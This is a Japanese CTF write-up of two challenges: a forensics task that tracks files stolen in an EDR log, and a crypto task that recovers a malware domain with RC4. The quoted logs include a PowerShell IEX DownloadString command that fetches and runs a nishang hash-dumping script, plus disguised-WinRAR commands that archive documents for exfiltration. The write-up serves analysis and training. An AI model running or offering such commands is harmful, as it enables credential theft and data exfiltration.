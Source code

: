 ## [FORENSICS 100] 攻撃痕跡

`artifact.zip` (攻撃者が残したファイル)、`EDR_LOG.csv` (ログ) が与えられるので、これを解析して盗まれたファイルの中で最も重要なファイルの名前を答えるという問題でした。

`Get-PassHashes.ps1` という名前が明らかに怪しいファイルがあったので `EDR_LOG.csv` を `grep` で探したところ、以下のようなログが見つかりました。

```
$ grep Get-PassHashes.ps1 EDR_LOG.csv
06/27/2017 21:05:53.234,13Kamakura,LOCAL SYSTEM,45632,11332,Powershell.exe  IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1');Get-PassHashes ,92f44e405db16ac55d97e3bfe3b132fa
```

この前後を見てみると以下のようなログがありました。

```
06/27/2017 21:11:57.763,13Kamakura,LOCAL SYSTEM,45632,53651,"""C:\Program Files (x86)\\Tencent\\RTXC\Plugins\bizmailclient\sqlite.exe""  a -m5 -hpFnckyou123 ""C:\Program Files (x86)\\Java\\jre7\\bin\\client\\jvm.dat"" c:\users\Administrator\Desktop\*.xlsx",8babc98395f0d8fc0968982237b1bc8f
06/27/2017 21:12:47.139,13Kamakura,LOCAL SYSTEM,45632,36473,"""C:\Program Files (x86)\\Tencent\\RTXC\Plugins\\bizmailclient\\sqlite.exe""  a -m5 -hpFnckyou123 ""C:\\Program Files (x86)\\Java\\jre7\\bin\\client\\jvm.dat"" c:\windows\temp\*.log ",8babc98395f0d8fc0968982237b1bc8f
```

SQLite…? `jvm.dat` がどのようなファイルか調べてみましょう。

```
$ file jvm.dat
jvm.dat: RAR archive data, vac,
```

rar のようです。`sqlite.exe` のハッシュ値を検索したところ、どうやらこれは WinRAR を偽装したものらしいと分かりました。

`sqlite.exe` のオプションに書かれているパスワードを使って `jvm.dat` を展開すると、`2017want.xlsx` `MpCmdRun.log` `MpSigStub.log` `serverpassword.xlsx` の 4 つのファイルが出てきました。

```
serverpassword
```

## [CRYPTO 100] 宛先暗号

`svchost.exe` (マルウェア本体)、`vm.dat`、`EDR_log.csv` (ログ) の 3 つのファイルが与えられるので、このマルウェアの通信先の FQDN を特定するという問題でした。

`svchost.exe` を `strings` に投げると `Must specify <RC4 key> <file>!` という文字列が見つかりました。

`EDR_log.csv` を `vm.dat` で `grep` すると以下のようなログが見つかりました。

```
$ grep vm.dat EDR_log.csv
06/28/2017 12:38:32.910,TESHIGA-PC,tessy,svchost.exe,4128,svchost.exe  abcd vm.dat,7cd491ed51b4e6da2ac468611f240621,2168
```

`abcd` を鍵として `vm.dat` の内容を RC4 で復号してみましょう。

```
$ python2
...
>>> RC4('a5012e2ce822402b20f45b5564'.decode('hex'), 'abcd')
'shinobot.com\n'
```
